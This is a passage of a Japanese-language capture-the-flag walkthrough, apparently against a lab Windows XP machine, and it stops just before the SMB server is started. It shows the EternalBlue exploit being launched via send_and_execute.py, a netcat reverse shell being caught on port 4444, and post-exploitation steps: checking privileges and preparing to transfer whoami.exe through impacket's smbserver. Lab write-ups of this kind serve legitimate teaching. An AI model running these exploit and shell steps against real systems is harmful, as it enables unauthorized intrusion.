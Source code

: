   * 環境ができたので以下実行
  
  ```
  python send_and_execute.py 10.10.10.4 eternalblue.exe
  ```
  
  * リバースシェルが取得できる
  
  ```bash
  $ nc -nlvp 4444
  listening on [any] 4444 ...
  connect to [10.10.16.12] from (UNKNOWN) [10.10.10.4] 1039
  Microsoft Windows XP [Version 5.1.2600]
  (C) Copyright 1985-2001 Microsoft Corp.
  
  C:\WINDOWS\system32>
  ```
  
  * ユーザの権限を確認していく
  
    ```cmd
    C:\>whoami 
    whoami
    'whoami' is not recognized as an internal or external command,
    operable program or batch file.
    ```
  
    whoami実行できない
  
    ```cmd
    C:\>echo %username%
    echo %username%
    %username%
    ```
  
    usernameも表示できない
  
  * kaliがwhoami実行ファイルを持っているためターゲットマシーンにインストールする
  
    ```bash
    └─$ locate whoami.exe
    /usr/share/windows-resources/binaries/whoami.exe
    ```
  
    locateコマンド便利やわ...
  
  * netcatとpowershellもインストールされていないため、実行もできない。
    なのでSMBserverを転送用にセットアップする。
  
    ```bash
    $ locate smbserver.py           
    /usr/lib/python3/dist-packages/impacket/smbserver.py
    /usr/share/doc/python3-impacket/examples/smbserver.py
    ```
  
    kali優秀すぎるだろ....
  
  * SMBserverを起動する
  